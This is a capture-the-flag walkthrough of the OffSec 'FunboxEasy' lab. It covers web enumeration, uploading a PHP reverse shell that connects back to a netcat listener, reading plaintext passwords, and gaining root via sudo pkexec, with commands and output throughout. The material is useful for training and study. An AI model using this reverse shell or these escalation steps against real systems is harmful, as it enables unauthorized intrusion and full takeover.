

# FunboxEasy

- [Machine information](#machine-information)
- [Solution](#solution)
- [References](#references)

## Machine information

```text
Type: PG Play
Difficulty: Fundamental
Community Rating: Easy
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
OS: Linux
Points: 5
Lab Description:
This lab involves exploiting an SQL Injection vulnerability to leak credentials for a web application, 
leading to a file upload vulnerability that provides initial access. Privilege escalation is achieved 
via user password disclosure and multiple sudo misconfigurations, ultimately granting root access 
through tools like pkexec or time.
Released: 16 Nov 2020
```

Machine link: [https://portal.offsec.com/machine/funboxeasy-497/overview/details](https://portal.offsec.com/machine/funboxeasy-497/overview/details)

## Solution

### Scan for services with nmap

We start by scanning the machine on all ports with `nmap` including service info and default scripts

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/FunboxEasy]
└─$ export TARGET_IP=192.168.230.111

┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/FunboxEasy]
└─$ sudo nmap -sV -sC -p- $TARGET_IP        
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-01 14:34 CEST
Nmap scan report for 192.168.230.111
Host is up (0.033s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b2:d8:51:6e:c5:84:05:19:08:eb:c8:58:27:13:13:2f (RSA)
|   256 b0:de:97:03:a7:2f:f4:e2:ab:4a:9c:d9:43:9b:8a:48 (ECDSA)
|_  256 9d:0f:9a:26:38:4f:01:80:a7:a6:80:9d:d1:d4:cf:ec (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_gym
33060/tcp open  mysqlx  MySQL X protocol listener
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.71 seconds
```

We have three services running:

- OpenSSH 8.2p1 on port 22
- Apache httpd 2.4.41 on port 80
- MySQL on port 33060

### Check the web site

Browsing manually to port 80 shows a `Apache2 Ubuntu Default Page`.  
Checking for comments with `nmap` show nothing interesting

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/FunboxEasy]
└─$ nmap -v -p80 --script http-comments-displayer $TARGET_IP                         
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-01 14:36 CEST
Happy 28th Birthday to Nmap, may it live to be 128!
NSE: Loaded 1 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 14:36
Completed NSE at 14:36, 0.00s elapsed
Initiating Ping Scan at 14:36
Scanning 192.168.230.111 [4 ports]
Completed Ping Scan at 14:36, 0.05s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 14:36
Completed Parallel DNS resolution of 1 host. at 14:36, 0.01s elapsed
Initiating SYN Stealth Scan at 14:36
Scanning 192.168.230.111 [1 port]
Discovered open port 80/tcp on 192.168.230.111
Completed SYN Stealth Scan at 14:37, 0.06s elapsed (1 total ports)
NSE: Script scanning 192.168.230.111.
Initiating NSE at 14:37
Completed NSE at 14:37, 0.21s elapsed
Nmap scan report for 192.168.230.111
Host is up (0.031s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-comments-displayer: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=192.168.230.111
|     
|     Path: http://192.168.230.111:80/
|     Line number: 4
|     Comment: 
|         <!--
|             Modified from the Debian original for Ubuntu
|             Last updated: 2016-11-16
|             See: https://launchpad.net/bugs/1288690
|           -->
|     
|     Path: http://192.168.230.111:80/
|     Line number: 201
|     Comment: 
|         <!--      <div class="table_of_contents floating_element">
|                 <div class="section_header section_header_grey">
|                   TABLE OF CONTENTS
|                 </div>
|                 <div class="table_of_contents_item floating_element">
|                   <a href="#about">About</a>
|                 </div>
|                 <div class="table_of_contents_item floating_element">
|                   <a href="#changes">Changes</a>
|                 </div>
|                 <div class="table_of_contents_item floating_element">
|                   <a href="#scope">Scope</a>
|                 </div>
|                 <div class="table_of_contents_item floating_element">
|                   <a href="#files">Config files</a>
|                 </div>
|               </div>
|_        -->

NSE: Script Post-scanning.
Initiating NSE at 14:37
Completed NSE at 14:37, 0.00s elapsed
Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.53 seconds
           Raw packets sent: 5 (196B) | Rcvd: 2 (72B)
```

The first nmap scan showed a robots.txt entry for `/gym` so let's check that

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/FunboxEasy]
└─$ curl http://$TARGET_IP/robots.txt
Disallow: gym

┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/FunboxEasy]
└─$ curl http://$TARGET_IP/gym       
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>301 Moved Permanently</title>
</head><body>
<h1>Moved Permanently</h1>
<p>The document has moved <a href="http://192.168.230.111/gym/">here</a>.</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at 192.168.230.111 Port 80</address>
</body></html>

┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/FunboxEasy]
└─$ curl -L http://$TARGET_IP/gym

<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
<---snipp--->
```

Checking this page in a browser shows a gym/fitness page


Let's do a gobuster scan to search for additional files and directories as well

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/FunboxEasy]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 32 -x php,txt,html -u http://$TARGET_IP
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.230.111
[+] Method:                  GET
[+] Threads:                 32
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 280]
/.php                 (Status: 403) [Size: 280]
/index.html           (Status: 200) [Size: 10918]
/index.php            (Status: 200) [Size: 3468]
/profile.php          (Status: 302) [Size: 7247] [--> http://192.168.230.111/index.php]
/header.php           (Status: 200) [Size: 1666]
/store                (Status: 301) [Size: 318] [--> http://192.168.230.111/store/]
/admin                (Status: 301) [Size: 318] [--> http://192.168.230.111/admin/]
/registration.php     (Status: 200) [Size: 9409]
/logout.php           (Status: 200) [Size: 75]
/robots.txt           (Status: 200) [Size: 14]
/dashboard.php        (Status: 302) [Size: 10272] [--> http://192.168.230.111/index.php]
/secret               (Status: 301) [Size: 319] [--> http://192.168.230.111/secret/]
/leftbar.php          (Status: 200) [Size: 1837]
/forgot-password.php  (Status: 200) [Size: 2763]
/.php                 (Status: 403) [Size: 280]
/.html                (Status: 403) [Size: 280]
/gym                  (Status: 301) [Size: 316] [--> http://192.168.230.111/gym/]
/hitcounter.txt       (Status: 200) [Size: 1]
/server-status        (Status: 403) [Size: 280]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

Trying to access `http://192.168.230.111/profile.php` redirects to `http://192.168.230.111/index.php` and shows a login page



On `http://192.168.230.111/store` there is a bookstore site


On `http://192.168.230.111/admin` there is a CRM Admin login page


Trying to login with `admin:admin` results in `Invalid username or password`.

And on `http://192.168.230.111/secret/` there is a quote by Oscar Wilde

```text
„Anyone who lives within their means suffers from a lack of imagination.“ Oscar Wilde (*1854 - †1900) 
```

### Get a reverse shell - preparations

We would like to get a reverse shell and we will use pentestmonkey's PHP reverse shell

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/FunboxEasy]
└─$ cp /usr/share/webshells/php/php-reverse-shell.php .

┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/FunboxEasy]
└─$ vi php-reverse-shell.php  

┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/FunboxEasy]
└─$ head -n 20 php-reverse-shell.php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.45.180';  // CHANGE THIS
$port = 12345;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

```

And we start a netcat listener

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/FunboxEasy]
└─$ nc -lvnp 12345
listening on [any] 12345 ...

```

### Get a reverse shell - file upload

By clicking on the `Admin Login` link in the lower right corner of the CSE bookstore site we get a login page.  
Trying to login with `admin:admin` works and we get the possibility to add books on `http://192.168.230.111/store/admin_add.php`.  
The function includes a file (image) upload part.

Let's add the following book

```text
ISBN: 12345
Title: My Special Book
Author: Cajac
Description: My special book on web shells.
Price: 200
Publisher: Apress
```

and as Image file we upload the PHP reverse shell.

Now the question becomes: Where is the file uploaded?  
We do a gobuster scan of the `/store` directory

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/FunboxEasy]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 32 -x php,txt,html -u http://$TARGET_IP/store
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.230.111/store
[+] Method:                  GET
[+] Threads:                 32
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 280]
/index.php            (Status: 200) [Size: 3998]
/contact.php          (Status: 200) [Size: 4155]
/books.php            (Status: 200) [Size: 5701]
/admin.php            (Status: 200) [Size: 3153]
/.html                (Status: 403) [Size: 280]
/book.php             (Status: 200) [Size: 10]
/cart.php             (Status: 200) [Size: 2702]
/purchase.php         (Status: 200) [Size: 2692]
/template             (Status: 301) [Size: 327] [--> http://192.168.230.111/store/template/]
/database             (Status: 301) [Size: 327] [--> http://192.168.230.111/store/database/]
/checkout.php         (Status: 200) [Size: 2696]
/process.php          (Status: 200) [Size: 1996]
/models               (Status: 301) [Size: 325] [--> http://192.168.230.111/store/models/]
/functions            (Status: 301) [Size: 328] [--> http://192.168.230.111/store/functions/]
/verify.php           (Status: 200) [Size: 69]
/bootstrap            (Status: 301) [Size: 328] [--> http://192.168.230.111/store/bootstrap/]
/.html                (Status: 403) [Size: 280]
/.php                 (Status: 403) [Size: 280]
/controllers          (Status: 301) [Size: 330] [--> http://192.168.230.111/store/controllers/]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

The correct upload path is `http://192.168.230.111/store/bootstrap/img/`.

We start/trigger the reverse shell by clicking on the `php-reverse-shell.php` file in the browser.

And checking back to the netcat listener we have a connection

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/FunboxEasy]
└─$ nc -lvnp 12345
listening on [any] 12345 ...
connect to [192.168.45.180] from (UNKNOWN) [192.168.230.111] 46606
Linux funbox3 5.4.0-42-generic #46-Ubuntu SMP Fri Jul 10 00:24:02 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 13:43:30 up  1:14,  0 users,  load average: 0.00, 0.03, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```

### Fix/upgrade the reverse shell

We don't have a proper shell though so let's fix that

```bash
$ tty
not a tty
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@funbox3:/$ ^Z
zsh: suspended  nc -lvnp 12345

┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/FunboxEasy]
└─$ stty raw -echo ; fg ; reset
[1]  + continued  nc -lvnp 12345

www-data@funbox3:/$ export TERM=xterm-256color
www-data@funbox3:/$ ^C
www-data@funbox3:/$ ^C
www-data@funbox3:/$ 
```

Now we have a proper shell that survives `Ctrl + C`!

### Get the user flag

Now we can start looking for the user flag

```bash
www-data@funbox3:/$ find / -type f -name user.txt 2>/dev/null
www-data@funbox3:/$ find / -type f -name local.txt 2>/dev/null
/var/www/local.txt
www-data@funbox3:/$ cat /var/www/local.txt
f<REDACTED>8
www-data@funbox3:/$ 
```

### Enumeration for privesc

Next, we enumerate the system for privilege escalation opportunities.

First we check local files under the `/home` directory

```bash
www-data@funbox3:/$ ls -laR /home
/home:
total 12
drwxr-xr-x  3 root root 4096 Jul 30  2020 .
drwxr-xr-x 20 root root 4096 Oct 30  2020 ..
drwxr-xr-x  2 tony tony 4096 Oct 30  2020 tony

/home/tony:
total 24
drwxr-xr-x 2 tony tony 4096 Oct 30  2020 .
drwxr-xr-x 3 root root 4096 Jul 30  2020 ..
-rw------- 1 tony tony    0 Oct 30  2020 .bash_history
-rw-r--r-- 1 tony tony  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 tony tony 3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 tony tony  807 Feb 25  2020 .profile
-rw-rw-r-- 1 tony tony   70 Jul 31  2020 password.txt
www-data@funbox3:/$ cat /home/tony/password.txt 
ssh: yxcvbnmYYY
gym/admin: asdfghjklXXX
/store: admin@admin.com admin
www-data@funbox3:/$ 
```

And we have some passwords.

### Connect as tony with SSH

Now that we have credentials (`tony:yxcvbnmYYY`) we login with SSH instead

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/FunboxEasy]
└─$ ssh tony@$TARGET_IP                     
The authenticity of host '192.168.230.111 (192.168.230.111)' can't be established.
ED25519 key fingerprint is SHA256:sMY2EwBNywi3V/cmpdMCtvcC6NM31k0H9CTRlsxALfY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.230.111' (ED25519) to the list of known hosts.
tony@192.168.230.111's password: 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-42-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Sep  1 14:00:13 UTC 2025

  System load:  0.0               Processes:               157
  Usage of /:   81.2% of 4.66GB   Users logged in:         0
  Memory usage: 62%               IPv4 address for ens256: 192.168.230.111
  Swap usage:   0%


60 updates can be installed immediately.
0 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

tony@funbox3:~$ 
```

And check if we can run any commands with `sudo`

```bash
tony@funbox3:~$ sudo -l
Matching Defaults entries for tony on funbox3:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tony may run the following commands on funbox3:
    (root) NOPASSWD: /usr/bin/yelp
    (root) NOPASSWD: /usr/bin/dmf
    (root) NOPASSWD: /usr/bin/whois
    (root) NOPASSWD: /usr/bin/rlogin
    (root) NOPASSWD: /usr/bin/pkexec
    (root) NOPASSWD: /usr/bin/mtr
    (root) NOPASSWD: /usr/bin/finger
    (root) NOPASSWD: /usr/bin/time
    (root) NOPASSWD: /usr/bin/cancel
    (root) NOPASSWD: /root/a/b/c/d/e/f/g/h/i/j/k/l/m/n/o/q/r/s/t/u/v/w/x/y/z/.smile.sh
```

And we can!

What sticks out the most is the long command at the end.

```bash
tony@funbox3:~$ ls -l /root/a/b/c/d/e/f/g/h/i/j/k/l/m/n/o/q/r/s/t/u/v/w/x/y/z/.smile.sh
ls: cannot access '/root/a/b/c/d/e/f/g/h/i/j/k/l/m/n/o/q/r/s/t/u/v/w/x/y/z/.smile.sh': Permission denied
tony@funbox3:~$ sudo /root/a/b/c/d/e/f/g/h/i/j/k/l/m/n/o/q/r/s/t/u/v/w/x/y/z/.smile.sh
sudo: /root/a/b/c/d/e/f/g/h/i/j/k/l/m/n/o/q/r/s/t/u/v/w/x/y/z/.smile.sh: command not found
```

Doesn't seem to exist!

Re-reading the list again we note [/usr/bin/pkexec](https://gtfobins.github.io/gtfobins/pkexec/).

### Get the root flag

Finally we get the root flag

```bash
tony@funbox3:~$ sudo pkexec /bin/bash
root@funbox3:~# id
uid=0(root) gid=0(root) groups=0(root)
root@funbox3:~# ls -l /root
total 12
-rw------- 1 root root   33 Sep  1 12:32 proof.txt
-rw-r--r-- 1 root root   32 Oct 30  2020 root.flag
drwxr-xr-x 3 root root 4096 Jul 30  2020 snap
root@funbox3:~# cat /root/proof.txt 
a<REDACTED>8
root@funbox3:~# 
```

For additional information, please see the references below.

## References

- [Apache HTTP Server - Wikipedia](https://en.wikipedia.org/wiki/Apache_HTTP_Server)
- [find - Linux manual page](https://man7.org/linux/man-pages/man1/find.1.html)
- [Gobuster - GitHub](https://github.com/OJ/gobuster/)
- [Gobuster - Kali Tools](https://www.kali.org/tools/gobuster/)
- [MySQL - Wikipedia](https://en.wikipedia.org/wiki/MySQL)
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [netcat - Wikipedia](https://en.wikipedia.org/wiki/Netcat)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [OpenSSH  - Wikipedia](https://en.wikipedia.org/wiki/OpenSSH)
- [php-reverse-shell - pentestmonkey - GitHub](https://github.com/pentestmonkey/php-reverse-shell)
- [pkexec - GTFOBins](https://gtfobins.github.io/gtfobins/pkexec/)
- [robots.txt - Wikipedia](https://en.wikipedia.org/wiki/Robots.txt)
- [Secure Shell - Wikipedia](https://en.wikipedia.org/wiki/Secure_Shell)
- [ssh - Linux manual page](https://man7.org/linux/man-pages/man1/ssh.1.html)
